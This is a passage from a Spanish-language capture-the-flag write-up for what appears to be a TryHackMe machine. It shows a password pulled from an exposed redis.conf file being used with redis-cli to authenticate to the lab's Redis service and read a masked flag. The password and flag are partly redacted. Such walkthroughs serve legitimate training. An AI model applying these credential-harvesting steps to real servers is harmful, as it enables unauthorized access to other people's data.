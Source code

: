 ```bash
│       └── wildmidi.cfg
└── services.txt

9 directories, 15 files
```

En el archivo `redis.conf` hay credenciales para el servicio _redis_ de la máquina.

```bash
❯ cat mnt/redis/redis.conf | grep requirepass
# If the master is password protected (using the "requirepass" configuration
requirepass "B65..............."
# requirepass foobared
```

## 6379 - redis

Al intentar conectarme a Redis pide contraseña.

```bash
❯ redis-cli -h 10.10.229.132
10.10.229.132:6379> info
NOAUTH Authentication required.
```

Así que proporciono la que encontramos anteriormente.

```bash
❯ redis-cli -h 10.10.229.132
10.10.229.132:6379> info
NOAUTH Authentication required.
10.10.229.132:6379> AUTH B65..............
OK
10.10.229.132:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
...
```

Tenemos otra flag listando las claves en la base de datos actual.

```bash
10.10.229.132:6379> keys *
1) "internal flag"
2) "tmp"
3) "int"
4) "authlist"
5) "marketlist"
10.10.229.132:6379> get "internal flag"
"THM{ff8e.............................}"
```
